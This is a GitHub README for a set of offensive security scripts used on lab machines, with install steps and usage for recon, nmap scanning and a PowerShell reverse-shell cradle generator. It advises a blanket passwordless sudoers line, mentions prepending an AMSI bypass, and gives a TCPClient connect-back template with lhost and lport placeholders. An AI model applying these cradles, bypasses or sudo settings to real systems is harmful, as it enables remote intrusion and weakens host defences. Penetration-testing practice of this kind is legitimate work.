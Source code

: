 # scripts

Here are a collection of scripts I use regularly for offensive security-related tasks.

![](img/recon_setup_demo.gif)

## Install

```bash
# Install dependencies (kali only)
sudo apt install python3-impacket python3-libtmux python3-requests python3-rich python3-urllib3 python3-watchdog

# Clone repo
sudo git clone https://github.com/Mojo8898/scripts.git /opt/scripts

# Make nmap wrapper script executable
sudo chmod +x /opt/scripts/scan_machine.py
```

Some automated scripts including the built-in nmap wrapper require sudo to run properly. Add the following line to the bottom of your `/etc/sudoers` file using the command `sudo visudo` to prevent password prompts.

```
kali    ALL=(ALL) NOPASSWD: ALL
```

## Example Usage

### recon_setup.py

```bash
# Just configure working environment
python3 /opt/scripts/recon_setup/recon_setup.py -i 10.10.10.10 testing ~/htb/competitive_Mojo098.ovpn

# Configure working environment and launch automated tasks
python3 /opt/scripts/recon_setup/recon_setup.py -i 10.10.10.10 testing ~/htb/competitive_Mojo098.ovpn -a -u bob -p 'Password123!'
```

### scan_machine.py

```bash
python3 /opt/scripts/scan_machine.py 10.10.10.10
```

### scan_targets.py

```bash
python3 /opt/scripts/scan_targets.py external_hosts.txt
```

### cradle_gen.py

```bash
python3 /opt/scripts/cradle_gen.py 10.10.10.10 9001 -l
```

**Note:**
- To include an AMSI bypass with the Powercat cradle, create a file named amsi_bypass.txt in this project’s root directory. This file should contain the AMSI bypass code that will be prepended to the generated cradle.
- To include a raw socket PowerShell cradle, create a file named raw_socket.txt in this project’s root directory. Within this file, define the connection using Python’s string formatting placeholders for lhost and lport. For example:

```
System.Net.Sockets.TCPClient('{lhost}',{lport})
```
